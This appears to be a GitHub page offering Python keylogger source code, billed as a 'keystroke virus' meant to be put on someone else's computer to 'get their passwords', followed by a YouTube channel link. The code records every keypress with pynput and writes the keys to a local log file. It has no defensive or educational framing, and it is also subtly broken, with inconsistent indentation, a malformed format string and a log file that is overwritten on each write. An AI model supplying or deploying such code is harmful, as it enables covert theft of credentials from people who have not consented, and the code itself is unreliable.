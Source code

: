 # Keystroke-virus-python-code
put this on a computer and get their passwords :)

*******************************************


import pynput

from pynput.keyboard import Key, Listener

count=0

keys= []

def on_press(key):
  
  global keys, count

    keys.append(key)
   
   count +=1
    
    print("(0)pressed".format(key))

    if count >= 10:
       
       count=0
       
       write_file(keys)
       
       keys= []


def write_file(keys):
    
    with open("log.txt","w") as f:
        
        for key in keys:
            
            k = str(key).replace("'","")
            
            if k.find("space") > 0:
             
             f.write('/')
            
            elif k.find("Key") == -1:
                
                f.write(k)






def on_release(key):
    
    if key == Key.esc:
        
        return False


with Listener(on_press=on_press, on_release=on_release) as listener:
   
   listener.join()
    
    
    ********************************
    
    Subscriber here!
    
    https://www.youtube.com/channel/UCgsJ63FUmiLSuryd0KedGTA
    
 

